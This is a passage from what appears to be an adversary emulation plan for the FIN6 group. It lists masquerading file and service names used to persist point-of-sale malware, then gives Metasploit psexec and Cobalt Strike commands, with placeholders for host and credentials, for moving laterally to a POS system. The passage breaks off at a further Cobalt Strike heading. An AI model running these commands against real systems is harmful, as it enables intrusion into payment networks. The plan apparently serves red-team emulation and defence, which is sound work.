 Additional file names ([T1036.005](https://attack.mitre.org/techniques/T1036/005)) used by FIN6 include:<sup>[5](https://exchange.xforce.ibmcloud.com/threat-group/f8409554b71a79792ff099081bc5ac24)</sup>

```sh
logmesvc.exe, ttfmgr.exe, powershell.exe, dspsvc.exe, logmeinlauncher.exe, and POSreport.exe, PnPXAssoc.exe
```

Additional service names ([T1036.004](https://attack.mitre.org/techniques/T1036/004/)) used by FIN6 in persisting POS malware:<sup>[5](https://exchange.xforce.ibmcloud.com/threat-group/f8409554b71a79792ff099081bc5ac24)</sup>

```sh
#{AV} Management Instrumentation, BFHlpr / Base Filtering Helper, hdmsv c/ Windows Hardware Management Driver, TrueType Fonts Management Service, and LogMeInServer
```

### Procedures

#### 5.1 Lateral movement to POS system using a Command and Control (C2) Framework.<sup>[4](https://www.fireeye.com/blog/threat-research/2019/04/pick-six-intercepting-a-fin6-intrusion.html)</sup> <sup>[9](https://securityintelligence.com/posts/more_eggs-anyone-threat-actor-itg08-strikes-again/)</sup> <sup>[13](https://usa.visa.com/dam/VCOM/global/support-legal/documents/fin6-cybercrime-group-expands-threat-To-ecommerce-merchants.pdf)</sup>

##### Metasploit PsExec - PowerShell ([T1059.001](https://attack.mitre.org/techniques/T1059/001/))

FIN6 Procedure

```sh
msf> use exploit/windows/smb/psexec
msf exploit(psexec) > set Target PowerShell
msf exploit(psexec) > set RHost #{POS system}
msf exploit(psexec) > set SMBDomain #{Domain}
msf exploit(psexec) > set SMBPass #{Password}
msf exploit(psexec) > set SMBUser #{User}
msf exploit(psexec) > exploit
```

##### CobaltStrike PowerShell PsExec ([T1059.001](https://attack.mitre.org/techniques/T1059/001/), [T1569.002](https://attack.mitre.org/techniques/T1569/002/))

FIN6 Procedure

```sh
beacon> jump psexec_psh #{POS system}
```

##### CobaltStrike - Remote Exec ([T1047](https://attack.mitre.org/techniques/T1047/), [T1569.002](https://attack.mitre.org/techniques/T1569/002/))
